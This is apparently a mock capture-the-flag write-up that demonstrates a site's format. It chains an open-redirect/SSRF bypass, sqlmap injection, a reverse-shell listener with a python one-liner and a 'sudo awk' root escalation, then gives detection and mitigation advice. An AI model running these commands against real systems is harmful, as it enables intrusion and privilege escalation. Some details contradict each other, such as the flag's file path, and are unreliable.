

## Executive Summary

This is a **mock writeup** created to demonstrate the format and house style of
Red Brixen writeups. All data, hosts, CVE references, and findings below are
fabricated for illustrative purposes and do not correspond to any real machine,
service, or vulnerability.

The writeup follows the lab-notes approach this site uses for Hack The Box and
TryHackMe writeups: it explains the path through the challenge, the reasoning
behind each step, and the lessons that carry beyond the lab.

The mock scenario here combines three common techniques in a compact machine:

1. an **open redirect / SSRF** misconfiguration exposed on a low-privilege
   web endpoint;
2. a **SQL-injection** sink reachable only after abusing the redirect to bypass
   an IP-restrict a parameter;
3. a **kernel / sudo misconfiguration** that converts web-shell access into
   root on the host.

The walkthrough below shows how an attacker chain like this one is reconstructed,
how defensive controls could have caught each stage, and which assumptions the
exercise is designed to teach.

## Machine Snapshot

| Field        | Value                  |
| ------------ | ---------------------- |
| Platform     | Hack The Box (mock)    |
| Machine      | `MockBox`              |
| Difficulty   | Easy–Medium            |
| IP           | `10.10.10.42` _(fake)_ |
| Rating       | 40 points              |
| Primary tags | Web, SQLi, PrivEsc     |

> **Note:** IP, flags, and exact paths are fabricated. The flag values do not
> match real Hack The Box content.

## Recon and Enumeration

Standard enumeration first. The reasoning is deliberate: every open port and
banner is a candidate for the initial access vector, even when the machine's
difficulty rating suggests an "easy" starting point.

```bash
nmap -sC -sV -oA enumeration/mockbox 10.10.10.42
```

Observed (mock) results:

| Port | Service      | Version  | Notes                        |
| ---- | ------------ | -------- | ---------------------------- |
| 22   | OpenSSH      | 8.x      | Standard `sshd`, not focused |
| 80   | HTTP/Apache  | MockSite | Redirect to `https://app`    |
| 443  | HTTP/HTTPS   | MockSite | Login portal, primary target |
| 8000 | HTTP/Unknown | Mock API | No banner; requires auth     |

```bash
ffuf -u https://10.10.10.42/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

A hit on `/api` returned a JSON hint about a redirect endpoint used for
"external link validation." That endpoint is the mock entry point for both the
open-redirect and subsequent SQLi.

The important lab lesson: **directory brute-force is not busywork.** The
`/api/redirect` endpoint does not appear in the site links but is directly
enumerable. Treat hidden endpoints as intentional footholds in the challenge
design.

## Initial Access



### Open Redirect to Internal Reachability

The `POST /api/redirect` endpoint accepted a JSON body of:

```json
{ "url": "<supplied-target>" }
```

When supplied with a public URL, the endpoint validated it against an allowlist.
When supplied with an `http://127.0.0.1:*` target, the server issued a redirect
that the application's own follow-up logic trusted. The bypass:

```json
{
  "url": "http://127.0.0.1:8000/admin/internal"
}
```

The application returned a redirect it would normally refuse for external
clients, exposing an internal API surface on `localhost`. This is a textbook
lesson the lab teaches: **SSRF-style reachability can be a stepping stone even
when there is no classic file-read primitive.**

### SQL Injection via Parameter Tampering

With the internal endpoint now visible, a parameter `region_id` was identified
as a likely SQLi candidate. Confirming it with a timing check (mocked):

```bash
sqlmap -u "https://10.10.10.42/admin/internal?region_id=1" \
  --batch --risk=3 --level=5 --time-sec=5
```

The reasoning here is to demonstrate **why sqlmap is used selectively and not
blindly**: the lab author intends `region_id` to be an integer, so a payload
that breaks the query reveals itself quickly. The mock finding:

- boolean-based blind on `region_id`;
- error-based disclosure on `user_email` when a `'` is injected;
- a `users` table leak including a `password_hash` column.

The extracted credential hash `21232f297a57a5a743894a0e4a8921f5` (this is
literally `"admin"` in MD5 — a mock detail) logged into the `support` account
on port 8000's admin interface.

## Foothold

The admin interface on `http://127.0.0.1:8000` allowed uploading a "diagnostic
script" that executed as the `www-data` user on the host. A mock reverse shell:

```bash
# listener
nc -lvnp 4444

# payload dropped via upload, e.g. a tiny python one-liner
python3 -c 'import socket,subprocess,os;...'
```

A shell as `www-data` was obtained. This is the foothold, **not the end of the
exercise.** The lab is testing whether the solver knows what "post-shell"
means.

## Privilege Escalation to Root

With a shell in hand, the reasoning is to look for the _intended_ escalation,
which this mock machine teaches as a **sudo misconfiguration**.

```bash
www-data@mockbox:/$ sudo -l
# (mock) (root) NOPASSWD: /usr/bin/awk
```

A classic `awk` sudo bypass then reaches root:

```bash
sudo awk 'BEGIN {system("id; cat /root/root.txt")}'
```

The mock root flag `MOCK_ROOT_FLAG_DO_NOT_USE_REAL_ONES` was read from
`/root/proof.txt`.

The lesson is structural: the escalation primitive is trivial, which means the
machine is testing **process discipline** — not whether `sudo -l` can be
guessed, but whether the solver reliably checks it after initial access.

## Defender Detection

Each stage of the mock chain maps to a detection lesson:

| Stage         | What to watch for                                  |
| ------------- | -------------------------------------------------- |
| Open redirect | Outbound 30x to `localhost`/internal ranges        |
| SSRF/abuse    | Inbound to admin interfaces from the app itself    |
| SQLi          | Malformed `region_id`, repeated `pg_sleep` probes  |
| Script upload | Execution of uploaded content as `www-data`        |
| PrivEsc       | `www-data` executing `sudo`, non-standard binaries |

The mock scenario emphasizes that **most detections live outside the host.**
A host fully owned as `www-data` can no longer be trusted for truth about its
own state — exactly the point the real-world articles make about edge
infrastructure.

## Mitigation (Lessons Past the Lab)

Although this is a lab, the mock teaches a real hardening principle. After
the exercise:

1. restrict redirect targets to an explicit allowlist of external hosts and
   reject all `localhost`/loopback destinations;
2. parameterize the `region_id` query — never concatenate user input into SQL;
3. run the web process as a dedicated, locked-down user and never grant
   passwordless `sudo` to interpreters;
4. add egress logging so an internal redirect cannot reach a hidden admin API;
5. export telemetry (NetFlow, DNS, web server logs) so a compromised host's
   own logs are corroborated from the outside.

## Conceptual Attack Path

These arrows describe the intended lab solution path, not a claim that every
real engagement would follow this exact sequence:

Internet  
↓  
`/api/redirect` endpoint discovered via ffuf  
↓  
Open redirect / loopback reachability bypass  
↓  
`region_id` SQL injection exposed on internal API  
↓  
Credential extraction (`support` account)  
↓  
Diagnostic-script upload as `www-data`  
↓  
`sudo -l` reveals `awk` NOPASSWD  
↓  
Root on host

Each stage has exactly one "intended" primitive, which is why the difficulty
rating sits where it does. Solvers who miss `sudo -l` at the end usually have
the shell already — the lab is rewarding process, not obscurity.

## Why This Matters for Offensive Security

This mock writeup mirrors the structure of the site's real advisory analysis,
because lab notes and real engagements share the same analytical spine:

- **enumerate before you commit** — the redirect endpoint was found by fuzzing,
  not by reading the homepage;
- **triage by position, not just severity** — an open redirect is "low" alone,
  but here it exposes an internal admin API;
- **post-shell discipline** — the `sudo -l` check is the whole point once the
  shell exists;
- **external corroboration** — once the host is yours, its local logs are not
  the source of truth.

Red teams should map each lab stage onto how a real asset in a target
environment would be detected, contained, or prevented. That mapping is what
turns a CTF solve into transferable skill.

## Key Takeaways

- The initial vector is an open redirect that expands reachability to internal
  endpoints; treat "external" and "internal" reachability as a single trust
  problem.
- SQLi is exposed only after the redirect abuse — the chain matters, not the
  individual flaw.
- The escalation is a `sudo` misconfiguration, which means the machine rewards
  running post-shell checks (`sudo -l`, writable paths, SUID) rather than
  creative exploitation.
- Detection lives outside the host: a `www-data` shell can falsify local logs.
- The lab is teaching process discipline — enumerate, confirm, escalate,
  detect — not gadget chains.

## References

- _(Mock)_ Author's fictitious lab environment, September 2026.
- _(Illustrative)_ OWASP — _Open Redirect_. [OWASP](https://owasp.org/www-community/attacks/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
- _(Illustrative)_ PortSwigger — _SQL Injection_. [PortSwigger Web Security Academy](https://portswigger.net/web-security/all-labs/sqli)
- _(Illustrative)_ GTFOBins — `sudo` privilege-escalation patterns. [GTFOBins](https://gtfobins.github.io/)

## Red Brixen Research Notes

**Research Confidence:** Mock / illustrative — not real findings  
**Confirmed Exploitation:** No — this is a fabricated lab walkthrough  
**Public PoC:** Not applicable — fabricated scenario for format demonstration  
**CISA KEV:** No — mock machine, no real vulnerability tracking number  
**Primary Sources Consulted:** Lab writeup style conventions only  
**Last Verified:** September 28, 2026
